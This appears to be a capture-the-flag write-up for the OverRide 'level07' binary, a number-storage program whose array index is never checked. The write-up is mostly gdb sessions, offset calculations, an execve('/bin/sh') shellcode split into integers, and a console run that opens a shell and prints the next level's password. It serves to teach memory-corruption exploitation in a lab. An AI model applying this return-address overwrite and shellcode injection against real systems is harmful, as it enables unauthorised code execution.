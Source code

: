 # level07

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Basically, this program is a number storage service. `main` declares an array of a hundred unsigned integers, allowing the user to handle it via differents commands read from the standard input :
- `read` calls an associated function `read_number` that asks for an index of the array to look in and prints the value stored at this address.
- `store` calls `store_number` that first asks the user for a value to store, then for an index where to put it. A condition prevents us to store any value every 3 indexes (0, 3, 6...).
- `quit` obviously exits the program.

The first vulnerability we notice is that the index is never checked by any functions. The input is read by `scanf` which interprets it as an unsigned integer, then used as it is to move through the array.

We expect to use this lack of security to read/write almost everywhere on the stack, especially at the return address of `main` in order to redirect the execution flow. Our idea is to inject some shellcode, as we did many times in previous levels, but are confronted to some difficulties here.

At the beginning of the execution, the program deletes any argument and environment variable that could have been supplied, so we cannot store our shellcode this way. Therefore, the only area available from our knowledge is the array used to store numbers, but we need to find a way to bypass the restriction of the forbidden indexes.

Let's take a look at the function `store_number` to understand how it handles the index value we send.

```gdb
gdb-peda$ pd store_number
Dump of assembler code for function store_number:
    [...]
    0x08048666 <+54>:    call   0x80485e7 <get_unum>        ; get the index by calling scanf("%u", &number)
    0x0804866b <+59>:    mov    DWORD PTR [ebp-0xc],eax     ; store it to [ebp-0xc]
    [...]
    0x080486c2 <+146>:    mov    eax,DWORD PTR [ebp-0xc]
    0x080486c5 <+149>:    shl    eax,0x2                    ; shift left twice => multiply by four
    0x080486c8 <+152>:    add    eax,DWORD PTR [ebp+0x8]    ; [ebp+0x8] is the array address
    0x080486cb <+155>:    mov    edx,DWORD PTR [ebp-0x10]   ; [ebp-0x10] is the value we want to store
    0x080486ce <+158>:    mov    DWORD PTR [eax],edx        ; store the value at the offset/index
    [...]
```

The shift operation here is very interesting. It will transform the index we provide to get the real byte offset where to store the value. Basically, if we want to store a value at the 2nd cell of our unsigned integers array, we need to move to `array address + (2 * 4)` since an integer is 4-byte long. Pretty obvious in fact.

By mixing this information with the use of an integer overflow, we will be able to write at the forbidden indexes. Sweet ! 

## Exploit

We first use GDB in order to find the offset of the saved `main` return address from the array.

```gdb
gdb-peda$ b *0x0804892b                             ## <read_number> call address, easy way to find the array address with peda display
Breakpoint 1 at 0x804892b
gdb-peda$ r
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read
=> 0x804892b <main+520>:	call   0x80486d7 <read_number>
Guessed arguments:
arg[0]: 0xffffd544 --> 0x0                          ## array address
Breakpoint 1, 0x0804892b in main ()

gdb-peda$ info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 called by frame at 0xffffd780
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c                                 ## saved EIP / main return address
```

Now that we have both saved EIP and array addresses, we can find the offset with a simple subtraction.

```python
>>> 0xffffd70c - 0xffffd544
456                             ## bytes offset
>>> 456 / 4
114                             ## array index representation
```

Guess what ? `114 % 3 = 0` so 114 is part of the forbidden indexes. Hopefully it is not a problem anymore :-)
From here, we have tried to perform the exploit, and have failed because the array address `0xffffd544` that we have stored at the EIP address to jump in was bad. Why ? because GDB alter the stack size by adding / changing environment variables.

Looking for a way to get the array address when running the program in an "regular" environment, we found out that we could use a negative index to dump lower than the array stack addresses. We will use gdb once again to find the offset between the array and its address pushed on stack when `read_number` is called.

```gdb
gdb-peda$ b *0x80486da                              ## beginning of <read_number>
Breakpoint 1 at 0x804892b
gdb-peda$ r
=> 0x80486da <read_number+3>:	sub    esp,0x28
Breakpoint 1, 0x080486da in read_number ()

gdb-peda$ x $ebp+8
0xffffd520:	0xffffd544
```

```python
>>> 0xffffd544 - 0xffffd520
36
>>> 36 / 4
9
```

Good, we will read the index `-9` in order to get the right array address to inject at the `main` return address.

We have almost everything we need now. We use a tiny shellcode (21 bytes), split it in 4-byte parts and reverse the bytes of each part, according to the endianness. We will use the 6th first indexes of the array to store it. Let's compute the values needed, then start the exploit.

execve("/bin/sh") shellcode : `"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"`

```python
# Shellcode values
>>> 0x99580b6a
2572684138
>>> 0x2f2f6852
791636050
>>> 0x2f686873
795371635
>>> 0x896e6962
2305714530
>>> 0xcdc931e3
3452514787
>>> 0x80
128

# Integer overflow for indexes 0 and 3 
>>> (2**32) / 4
1073741824
>>> (2**32 + (4 * 3)) / 4
1073741827

# Integer overflow for index 114 (EIP)
>>> (2**32 + (4 * 114)) / 4
1073741938
``` 

```console
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 2572684138
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 791636050
 Index: 1
 Completed store command successfully
Input command: store
 Number: 795371635
 Index: 2
 Completed store command successfully
Input command: store
 Number: 2305714530
 Index: 1073741827
 Completed store command successfully
Input command: store
 Number: 3452514787
 Index: 4
 Completed store command successfully
Input command: store
 Number: 128
 Index: 5
 Completed store command successfully
Input command: read
 Index: -9
 Number at data[4294967287] is 4294956388
 Completed read command successfully
Input command: store
 Number: 4294956388
 Index: 1073741938
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```